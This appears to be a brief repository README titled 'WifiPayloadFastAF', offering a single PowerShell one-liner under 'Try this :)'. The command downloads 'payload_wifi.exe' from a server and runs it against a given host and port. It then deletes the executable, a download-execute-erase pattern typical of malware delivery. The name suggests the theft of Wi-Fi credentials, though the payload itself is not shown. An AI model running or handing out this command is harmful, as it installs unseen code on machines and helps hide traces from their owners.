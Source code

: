 # WifiPayloadFastAF

<h1>Try this :)</h1>
<code>Invoke-WebRequest 127.0.0.1:8000/payload_wifi.exe -outfile payload.exe; .\payload.exe {host} {port}; del payload.exe</code>
